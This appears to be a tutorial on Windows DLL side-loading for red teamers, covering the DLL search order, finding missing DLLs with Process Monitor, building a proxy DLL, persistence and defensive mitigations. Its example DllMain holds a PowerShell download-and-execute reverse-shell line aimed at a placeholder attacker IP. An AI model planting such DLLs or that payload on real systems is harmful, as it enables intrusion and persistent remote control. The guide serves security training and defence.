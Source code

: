 # Comprehensive Guide to DLL Side-Loading for Red Teamers and Security Professionals

## 1. Introduction to DLL Side-Loading

Dynamic-Link Library (DLL) side-loading is a common cyber-attack technique used to achieve persistence, escalate privileges, and evade detection. This method involves tricking a legitimate and often signed application into loading a malicious DLL file instead of the intended one. Because the application itself is trusted, security solutions may not flag its behavior, allowing the malicious code to execute under the radar.

This guide provides a deep dive into the mechanics of DLL side-loading, from discovery and exploitation to defensive and mitigative strategies.

## 2. How DLL Side-Loading Works

Windows applications often load DLLs at runtime to perform various functions. The operating system follows a specific search order to locate these DLLs. An attacker can exploit this search order by placing a malicious DLL with the same name as a legitimate one in a location that the application searches before the legitimate DLL's actual path.

The standard DLL search order is as follows:
1.  The directory from which the application is loaded.
2.  The system directory (`C:\Windows\System32`).
3.  The 16-bit system directory (`C:\Windows\System`).
4.  The Windows directory (`C:\Windows`).
5.  The current working directory.
6.  The directories listed in the `PATH` environment variable.

Attackers typically target the first step, placing a malicious DLL in the application's directory.

## 3. Finding Vulnerable Applications

The first step in a DLL side-loading attack is to identify an application that is vulnerable.

### Tools for Discovery:
*   **Process Monitor (ProcMon):** A powerful tool from Sysinternals that can monitor file system, registry, and process/thread activity. You can use it to identify `NAME NOT FOUND` errors for DLLs, which indicates an application is searching for a DLL that doesn't exist in a particular location.
*   **Robber:** A tool specifically designed to find DLL side-loading opportunities.
*   **Manual Analysis:** Running an application and observing its behavior, or reverse-engineering it to understand its DLL-loading mechanisms.

### Steps to Find a Vulnerable Application using ProcMon:
1.  **Start ProcMon:** Launch `procmon.exe`.
2.  **Set Filters:**
    *   `Process Name` is `<your_target_application.exe>`
    *   `Path` ends with `.dll`
    *   `Result` is `NAME NOT FOUND`
3.  **Launch the Target Application:** Start the application you want to test.
4.  **Analyze Results:** Look for `CreateFile` operations on DLLs that result in `NAME NOT FOUND`. This shows the application tried to load a DLL from a specific path and failed.

## 4. Crafting the Malicious DLL

Once you've identified a vulnerable application and the name of the missing DLL, you need to create a malicious DLL that the application will load.

### Key Requirements:
*   **Matching Architecture:** The malicious DLL must match the architecture (32-bit or 64-bit) of the target application.
*   **Exported Functions:** The DLL must export the same functions that the legitimate application expects to import from it. If it doesn't, the application will likely crash upon loading the DLL.

### Steps to Create the Malicious DLL:
1.  **Identify Required Exports:** Use a tool like `dumpbin` (from Visual Studio) or a PE viewer to inspect the legitimate DLL (if it exists elsewhere) and list its exported functions.
2.  **Create a Proxy DLL:**
    *   Write a simple DLL project in C/C++.
    *   Implement the required exported functions. You can either forward these calls to the real DLL (a technique called "proxying") or simply leave them as empty stubs if they aren't critical for the application to run.
    *   Add your malicious payload to the `DllMain` function. This function is executed when the DLL is loaded or unloaded.

### Example `DllMain` with a Payload:
```cpp
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // Your malicious code here
        // Example: spawn a reverse shell
        system("cmd.exe /c \"powershell -c 'IEX(New-Object Net.WebClient).DownloadString(\\\"http://<ATTACKER_IP>/shell.ps1\\\")'\"");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## 5. Execution and Persistence

### Execution:
To execute the attack, simply place your malicious DLL in the same directory as the vulnerable application's executable. When a user runs the application, it will load your DLL, and your payload will be executed with the same permissions as the application.

### Persistence:
If the vulnerable application is one that runs at startup (e.g., a driver update utility, a software updater), you can achieve persistence. Every time the system reboots, the application will start and load your malicious DLL.

## 6. Defensive and Mitigation Strategies

### For Developers:
*   **Use Absolute Paths:** When loading DLLs, use absolute paths to ensure the application loads the correct one.
*   **Code Signing:** Sign your DLLs and configure the application to verify the signature before loading.
*   **Manifests:** Use application manifests to specify exact versions of DLLs.

### For System Administrators and Blue Teams:
*   **Application Whitelisting:** Use tools like AppLocker to control which applications and DLLs are allowed to run.
*   **Endpoint Detection and Response (EDR):** Modern EDR solutions can often detect suspicious parent-child process relationships (e.g., `winword.exe` spawning `powershell.exe`) and anomalous DLL loads.
*   **Monitoring:** Monitor for `.dll` files being written to application directories. Pay close attention to newly created files in directories of commonly abused software.

## 7. Conclusion

DLL side-loading remains a potent technique in an attacker's arsenal. Understanding how it works is the first step toward defending against it. By combining secure coding practices, robust system administration, and vigilant monitoring, organizations can significantly reduce their risk of falling victim to this type of attack. 
